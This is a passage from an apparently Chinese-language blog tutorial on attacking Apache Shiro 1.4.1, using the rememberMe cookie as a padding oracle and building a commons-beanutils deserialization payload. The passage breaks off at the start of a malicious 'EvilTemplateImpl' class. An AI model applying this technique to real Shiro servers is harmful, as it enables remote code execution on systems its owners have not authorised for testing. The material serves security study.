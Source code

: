     ![Pasted image 20241203170732.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241203170732.png)

    查看返回前端的响应，响应头确实多出了一个set-cookie字段

    ![Pasted image 20241203171056.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241203171056.png)

由此可以看出之前的判断是正确的，在能获取合法cookie的情况下满足padding oracle这种攻击方式：当填充错误时，响应头会多出`Set-Cookie: rememberMe=deleteMe`字段



### 6.3 编写paylod

1. 获取CB1链反序列化数据（在shiro-1.4.1中commons-beanutils依赖的版本为1.9.3）
	添加依赖，引入commons-beanutils链
	
	```
	<dependency>  
		<groupId>commons-beanutils</groupId>  
		<artifactId>commons-beanutils</artifactId>   
		<version>1.9.3</version>  
	</dependency>
	```
	新建EvilTemplateImpl类，有恶意payload
	```java
	import com.sun.org.apache.xalan.internal.xsltc.DOM;  
	import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
	import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
	import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
	import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import java.io.IOException;  
	